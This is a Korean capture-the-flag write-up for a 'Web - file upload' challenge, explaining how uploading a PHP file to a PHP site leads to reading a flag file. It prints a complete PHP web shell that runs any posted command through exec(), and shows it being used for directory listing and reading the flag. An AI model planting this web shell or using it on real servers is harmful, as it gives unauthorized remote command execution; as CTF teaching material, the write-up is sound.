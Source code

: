 ## Web - file upload

### 문제
![Web - file upload](/img/file-upload-0.png)  
파일 업로드 취약점을 이용해 플래그를 알아내야 한다.

### 풀이
![Upload Page](/img/file-upload-1.png)  
여기도 ~~사나운~~ 귀여운 너구리 한 마리가 반겨준다..  
그리고 URL을 보면 해당 사이트가 PHP를 사용하는 것을 알 수 있다.

PHP로 웹셸을 작성 후  
```php
<?php
	$cmd = $_POST['cmd'];
	if ( isset($cmd) ) { $x = exec("$cmd", $output); }
	echo	"<form action='$_SERVER[PHP_SELF]' method='post'>".
			"<input type='text' name='cmd'/>".
		"</form><hr/>".
		"<pre>";
	foreach ($output as $o) {
		echo $o."<br/>";
	}
	echo	"</pre>";
?>
```
파일을 올리면

![Uplaod Path](/img/file-upload-3.png)  
친절하게도 파일이 업로드된 위치를 알려준다. ..?

이제 위 경로로 접속하면  
![Webshell](/img/file-upload-4.png)  
웹셸을 사용할 수 있다. 여기서 시스템 명령어를 사용하면 된다.

![Webshell - ls -lhA ../](/img/file-upload-5.png)  
`flag`라는 이름을 가진 파일을 찾았다.

이제 저 파일을 읽기만 하면 된다.  
![Webshell - cat ../flag](/img/file-upload-6.png)  
`flag` 파일의 위치를 브라우저로 접속해도 된다.
